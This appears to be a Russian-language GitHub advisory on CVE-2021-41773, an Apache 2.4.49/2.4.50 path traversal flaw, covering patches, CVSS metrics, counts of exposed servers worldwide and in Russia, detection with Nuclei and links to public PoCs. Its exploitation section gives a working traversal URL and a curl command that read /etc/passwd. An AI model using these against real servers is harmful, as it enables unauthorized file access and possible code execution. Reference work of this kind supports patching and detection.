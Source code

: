 # **CVE-2021-41773**

---

## **Описание**

Возникает в сервере Apache версии **2.4.49** и **2.4.50**. Причиной появления уязвимости является изменение, внесенное в нормализацию пути. Уязвимость позволяет:

- **Прочитать файлы на сервере.**
- В случае неправильной конфигурации — **выполнять удаленное выполнение кода** на сервере.

Уязвимость возникает из-за ошибки в обработке URL-запросов с использованием специальной последовательности (`../`). Эта ошибка позволяет **обойти ограничения**, наложенные на доступ к файловой системе. Если сервер настроен для использования файлов `.htaccess`, уязвимость позволяет получать доступ к файлам **за пределами корневого каталога веб-сервера**.

---

## **Патчи**

- Уязвимость была **криво исправлена** в обновлении **2.4.50** (выпущено **04/10/2021**), из-за чего она также затронула эту версию.
- Полностью устранена в версии **2.4.51** (выпущено **07/10/2021**).

---

## **Метрики**

- **Вектор:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Рейтинг:** **7.5** (Высокий)
- **Уязвимые версии:**
  - `cpe:2.3:a:apache:http_server:2.4.49`
  - `cpe:2.3:a:apache:http_server:2.4.50`
- Версии **до 2.4.49** и **после 2.4.50** — не затронуты.

---

## **Эксплуатация**

### **Условия для успешной эксплуатации**

1. Сервер использует Apache HTTP Server версии **2.4.49** или **2.4.50**.
2. Конфигурация сервера включает директиву: 
    ```apache
    <Directory "/path/to/webroot">
        Require all granted
    </Directory>
    ```
3. Сервер позволяет доступ к CGI-скриптам (например, `/cgi-bin/`).

### **Возможности**

- **Чтение файлов**, находящихся на внутреннем сервере (например, `/etc/passwd`).
- **Удаленное выполнение кода**, если можно загрузить вредоносный файл на сервер.

### **Процесс эксплуатации**

1. Использование URL с кодированием для обхода защиты:

http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

2. С помощью инструмента `curl`:

curl -s --path-as-is "http://iptarget:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

3. Если сервер уязвим, возвращается содержимое файла `/etc/passwd`.

---

## **Материалы**

- [CVE-2021-41773 (cve.mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [NVD CVE-2021-41773 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Qualys Blog Post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

---

## **Публичные эксплойты**

- [lorddemon PoC](https://github.com/lorddemon/CVE-2021-41773-PoC/blob/main/CVE-2021-41773.py)
- [walnutsecurity PoC](https://github.com/walnutsecurity/cve-2021-41773/blob/main/cve-2021-41773.py)
- [iilegacyyii PoC](https://github.com/iilegacyyii/PoC-CVE-2021-41773/blob/main/CVE-2021-41773.py)

## Распространенность

| Платформа | Запрос                                                      | Количество по миру | Количество по РФ |
|-----------|-------------------------------------------------------------|---------------------|------------------|
| Shodan    | `Apache/2.4.49 OR Apache/2.4.50`                            | 2,449               | 81               |
| Netlas    | `(http.headers.server: "Apache/2.4.49" OR http.headers.server: "Apache/2.4.50")` | 6,309               | 140              |
| Fofa      | `header="Apache/2.4.49" \|\| header="Apache/2.4.50"`        | 12,447              | 540              |

## Обнаружение с помощью Nuclei

### 1. Поднятие стенда
![Поднятие стенда](https://github.com/user-attachments/assets/82c14b86-2f99-45f4-8827-733398fb3ea6)

### 2. Сканирование
![Сканирование](https://github.com/user-attachments/assets/ebff9f86-dc1c-4067-af44-cc18dcc2660e)
